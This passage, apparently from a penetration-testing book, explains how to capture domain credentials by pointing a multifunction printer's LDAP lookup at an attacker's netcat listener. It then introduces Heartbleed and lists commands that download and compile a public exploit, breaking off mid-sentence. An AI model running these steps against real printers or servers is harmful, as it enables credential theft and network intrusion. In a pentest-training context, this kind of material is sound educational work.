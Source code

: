 We first log into our Xerox MFP with the default credentials over HTTP. Like I said before, I am
sure we see this pretty much on every penetration test.
Default Multifunction Printer
A quick Google search (or maybe your scanner identifies the default password) and you know that the
admin password is 1111. Going to the “Properties” tab, we can see that this printer is configured with
LDAP to query the domain.
Multifunction Printer - LDAP setting
Looking at the configuration, we need to modify the LDAP server so that it points to our Kali attack
VM. This way, any LDAP lookups will be directed to our LDAP server instead of the corporate
LDAP server.
We see in the username, that it currently uses a domain account and although the password field is
blank, we can still make changes without re-entering the password information. We go ahead and
save our configuration changes.
Multifunction Printer - LDAP Modification
Now, we just need to wait until the MFP creates an LDAP lookup and we should be able to capture
the credentials. Luckily, in the case of Xerox (and many other printers), they have a feature to test
your LDAP queries.
We can click the "User Mappings” tab and test a user lookup.
MFP - LDAP Check
Remember that we are now pointing the LDAP server to our Kali Linux box. Before testing an
account, we need to set up a netcat listener on the specified server we set in the configuration page
above. We start a quick listener on port 444 (or whatever port you configured) and go back into the
management console, and hit the “search user” button.
MFP - Capturing LDAP Credentials
Looking at our netcat output, we now see that the MFP, which is connected to our Kali netcat listener
via LDAP, tried to authenticate using a Domain_Admin_Account and a password of
“$uper$ecretPass!”.
In most cases, you might not come across a domain admin account, but you will have your first
account to move laterally through the network.
Heartbleed
Heartbleed is one of those buzzword security vulnerabilities that blew up in 2014. Unfortunately for
network administrators and system owners, this vulnerability was one of the worst issues of that year.
The Heartbleed bug was a vulnerability in OpenSSL that allowed an attacker to read parts of the
server’s memory. So what does this really mean? You can ask a server that uses SSL security for
encryption to perform a request and, in addition, give you some allocated chunk of memory back. For
an easier visual reference, visit this xkcd article: http://xkcd.com/1354/. From the xkcd comic strip,
you ask for a word to be returned (example: dog), but ask for the size to be returned as 500 bytes
instead of the normal 3 bytes. The server will return the word “dog” back to you, and in the process,
you will also receive any other memory that might have been allocated in previous requests.
We don’t know exactly how many systems were vulnerable, but zmap.io did a scan of the Alexa Top
1 Million domains as of April 16, 2014 and reported which domains were vulnerable at the time.
Supposedly, reports have stated that even today some of the domains are vulnerable. See
https://zmap.io/heartbleed/vulnerable.html.
The scary part was what was found in the memory space. From numerous penetration tests, we found
passwords, usernames, random strings, emails, session keys, and even private SSL certificates. With
private SSL certificates, we can now decrypt any traffic that we sniff.
So let’s walk through one example. Although there are numerous tools (a Metasploit module is
available) to pull memory from vulnerable OpenSSL services, we are going to compile our own:
● cd /opt/
● wget
https://raw.githubusercontent.com/HackerFantastic/Public/master/exploits/heartbleed.c● gcc heartbleed.c -o heartbleed -Wl,-Bstatic -lssl -Wl,-Bdynamic -lssl3 -lcrypto
● chmod +x heartbleed
We should have a heartbleed binary to execute against a vulnerable service. The most common way